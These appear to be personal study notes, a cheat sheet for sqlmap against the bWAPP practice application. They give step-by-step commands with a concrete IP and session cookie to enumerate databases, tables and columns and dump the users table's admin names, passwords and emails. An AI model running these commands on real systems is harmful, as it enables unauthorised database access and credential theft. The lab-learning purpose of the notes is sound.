

# sqlmap:

- capture get request sent to web using burpsuite
- `sqlmap -u <url> --cookie <cookie> -p <payload_param> --dbs`
- `sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title`
	- -p flag: payload param
- `sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title --dbs`
	- --dbs : get databases for the sql
- `sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP --tables` 
	- -D : specify a database
	- --tables : get tables in specific db (requires -D)
- `sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users --columns`
	- T : specify a table 
	- --columns: get all columns in a table (requires -T)
- `sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump`
	- C : get specific columns (comma-separated) (use with --dump)

- for **post requests**, save the intercepted post req from burpsuite in a file.
	- -r : specify the file with request
- eg. sqlmap -r request -p title

